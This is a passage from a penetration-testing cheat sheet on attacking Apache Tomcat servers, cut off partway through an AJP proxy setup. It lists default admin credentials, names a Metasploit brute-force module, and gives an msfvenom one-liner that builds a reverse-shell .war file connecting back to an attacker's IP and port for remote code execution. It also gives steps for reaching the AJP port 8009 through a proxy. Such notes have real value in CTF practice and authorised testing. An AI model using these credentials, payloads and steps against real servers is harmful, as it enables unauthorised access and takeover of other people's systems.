 #### References
- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html)
- [https://ir0nstone.gitbook.io/hackthebox/challenges/web/baby-website-rick](https://ir0nstone.gitbook.io/hackthebox/challenges/web/baby-website-rick)


# Tomcat
## Default credentials
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

### Metasploit brute force
With the is module: `auxiliary/scanner/http/tomcat_mgr_login` one can bruteforce possible usernames and passwords.

## War file exploit (RCE)
If one has access to the Application Manager of Tomcat, the attacker can upload and run a .war file to execute code and get a shell potentially.     
**This is only possible if the account that the attacker is logged in with has enough privileges (admin,manager-script,manager)**

### One liner to create .war file
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Apache JServ (AJP) protocol on port 8009
If a machine hosts a tomcat server with the AJP protocol one can use the steps below to redirect traffic from the host to their machine.
1. Download needed software
    ```bash
    apt install libapache2-mod-jk
    a2enmod proxy_ajp
    ```
2. Configure server
    ```bash
    ProxyRequests Off
    <Proxy *>
    Order deny,allow
    Deny from all
    Allow from localhost
    </Proxy>
    ProxyPass   / ajp://<IP>:8009/
    ProxyPassReverse  / ajp://<IP>:8009/
    ```
3.  (Re)start apache server
    ```bash
    systemctl start apache2 
    # OR